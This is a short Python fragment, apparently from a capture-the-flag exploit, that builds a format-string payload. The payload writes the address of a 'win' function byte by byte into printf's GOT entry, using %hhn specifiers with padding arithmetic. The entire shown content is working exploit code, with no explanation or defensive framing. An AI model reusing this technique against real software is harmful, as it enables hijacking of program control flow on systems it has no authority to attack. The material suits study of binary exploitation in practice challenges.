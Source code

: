 ```python
    win_bytes_1 = hex(win_addr)[8:]
    win_bytes_2 = hex(win_addr)[6:-2]
    win_bytes_3 = hex(win_addr)[4:-4]
    win_bytes_4 = hex(win_addr)[2:-6]

    win_bytes_1 = int(win_bytes_1, 16)
    win_bytes_2 = int(win_bytes_2, 16)
    win_bytes_3 = int(win_bytes_3, 16)
    win_bytes_4 = int(win_bytes_4, 16)

    payload = b""
    payload += p32(printf_got)         # <- lowest byte
    payload += p32(printf_got + 1)     # <- 2rd lowest byte
    payload += p32(printf_got + 2)     # <- 3rd lowest byte
    payload += p32(printf_got + 3)     # <- 4th lowest byte

    # Turnery operators used to handel overflow padding
    payload += f"%{win_bytes_1 - 16}c%5$hhn".encode()
    payload += f"%{win_bytes_2 - win_bytes_1 if (win_bytes_2 - win_bytes_1 >= 0) else (win_bytes_2 - win_bytes_1) + 0x100}c%6$hhn".encode()           
    
    payload += f"%{win_bytes_3 - win_bytes_2 if (win_bytes_3 - win_bytes_2 >= 0) else (win_bytes_3 - win_bytes_2) + 0x100}c%7$hhn".encode()           
    payload += f"%{win_bytes_4 - win_bytes_3 if (win_bytes_4 - win_bytes_3 >= 0) else (win_bytes_4 - win_bytes_3) + 0x100}c%8$hhn".encode()            

    return payload
```
